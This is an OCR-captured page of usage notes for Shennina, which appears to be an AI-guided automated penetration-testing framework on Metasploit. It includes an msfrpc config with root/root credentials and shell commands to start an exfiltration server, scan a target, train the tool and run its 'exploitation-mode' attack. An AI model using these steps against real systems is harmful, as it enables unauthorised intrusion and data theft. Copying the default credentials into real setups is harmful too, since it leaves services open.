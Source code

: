 # Shennina

/config/msfrpg-config.json
{
  "password": "root",
  "user": "root",
  "host": "172.17.0.1",
  "port": 55553,
  "ssl": false
}

# 1 Shell 1
# -------runs exfiltration server (separeted console)
$ cd ./exfiltration-server/
$ sudo ./run-server.sh

# 2 Shell 2
# ------runs msfconsole (separeted console)
./scripts/run-msfrpc.py

# 3 Shell 3
# ------runs shennina
./shennina.py --initialize-exploits-tree


#------ scanning phase------#
sudo ./shennina.py --lhost metasploit-ip --target target.local --service-scan-only

# ------------- training shennina ------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --training-mode

# --------------- attacking with recommended exploit given by shennina AI -------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --exploitation-mode



